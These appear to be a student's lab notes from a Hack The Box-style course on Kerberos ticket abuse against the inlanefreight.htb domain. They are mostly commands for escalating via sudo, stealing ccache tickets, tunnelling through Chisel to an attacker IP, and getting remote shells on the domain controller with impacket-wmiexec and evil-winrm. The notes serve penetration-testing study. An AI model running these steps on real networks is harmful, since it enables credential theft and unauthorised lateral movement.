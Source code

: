 ## privilege escalation to root
```
sudo -l 
```
to confirm whether the user can execute any command as root
```
sudo su 
```
to change to root
```
ls -la \tmp
```
check for ccache files 
```
id julio@inlanefreight.htb
```
to check group membership

to use the ccache file, we copy the ccache file and assign the file path to the KRB5CCName env variable 
```
export KRB5CCNAME=/path/to/ccache/file
```

# Using Linux Attack Tools with Kerberos 
if we are attacking from a machine that is not a memebr of the domain, we need to proxy our traffic via a machine in the domain with a tool such as Chisel/Proxychain and edit the /etc/hosts file to hardcode IP address of the domain and the machines we want to attack 

```
cat /etc/hosts

# Host addresses
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

```
cat /etc/proxychains.conf

<SNIP>
[ProxyList]
socks5 127.0.0.1 1080
```

```
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```

on the machine in the domain 
```
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```
transfer ccache file from another machine we want to go into amd create the environment variable with the value corresponding to the path of the ccache file
```
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```


# Logging in as impersonated user 
```
proxychains impacket-wmiexec dc01 -k -no-pass
```

# Evil-WinRM with Kerberos
## using krb5-user
need to modify default realm (domain name) and kdc and administrative servers in /etc/krb5.conf

```
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```